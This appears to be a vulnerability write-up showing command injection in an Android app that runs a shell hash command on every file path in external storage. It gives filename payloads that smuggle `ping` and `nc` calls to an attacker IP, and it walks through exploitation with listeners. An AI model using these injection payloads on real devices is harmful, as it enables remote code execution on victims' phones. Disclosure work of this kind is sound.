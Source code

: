 # Analysis
1. The application is running service that do loop through all files in external storage every 6 seconds and called `scanFile`.
![Loop files](images/loop%20all%20file%20external%20storage.png)

2. The file hash sha1 is being checked using function `scanFile`, this function is used the full path of the file in os command.
![Vulnerable code](images/vulnerable%20code.png)

3. By creating malicious filename in external storage, we able to gain remote code execution using this payload.
```sh
touch "zzz & ping -c 5 192.168.188.200 &"
touch "zzz & nc 192.168.188.200 8002"
```

# Exploitation
1. First time run the application, the app will asking permission to allow access manages all files.
![Ask for permission](images/app%20asking%20permission.png)

2. We create malicious filename in `/storage/emulator/0/Download/`
![create malicious filename](images/created%20malicious%20filename.png)

3. Setup listener.
- tcpdump
![tcpdump setup](images/setup%20tcpdump.png)
- nc
![nc setup](images/setup%20nc%20listener.png)

3. IP information for hosts and android (victim)
- Hosts:
![hosts ip](images/ifconfig%20hosts.png)
- Android (Victim):
![victim ip](images/android%20devices%20ip.png)

3. Toggle the button to run the service.
![Enabling services](images/toggle%20enable%20scanner.png)

4. The service is do loop through all files in external storages.
![malicious filename is runned](images/log%20loop%20all%20file.png)

6. We got connection from the android.
- tcpdump (received icmp packet)
![received icmp](images/ping%20received.png)
- nc (received connection)
![received connection](images/nc%20received%20connection.png)